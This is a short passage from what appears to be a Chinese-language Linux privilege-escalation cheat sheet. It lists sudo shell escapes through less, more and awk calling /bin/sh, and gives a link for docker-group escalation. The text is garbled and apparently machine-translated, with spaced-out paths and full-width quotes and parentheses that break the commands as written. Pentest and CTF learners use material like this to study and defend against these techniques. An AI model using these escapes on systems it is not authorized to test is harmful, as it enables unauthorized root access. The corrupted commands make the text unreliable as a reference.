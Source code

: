 之后按！按下并按Enter

**使用更少/更多命令**

```bash
sudo less / etc / hosts
sudo more / etc / hosts
```

之后按！按下并按Enter

**使用awk命令**

```
sudo awk'BEGIN {system（“ / bin / sh”）}'
```

## docker组提权

[http://www.openskill.cn/article/21](http://www.openskill.cn/article/21)

由于时间关系，这里总结的不是很全面，空闲下来会继续补充，一起加油叭，共勉！
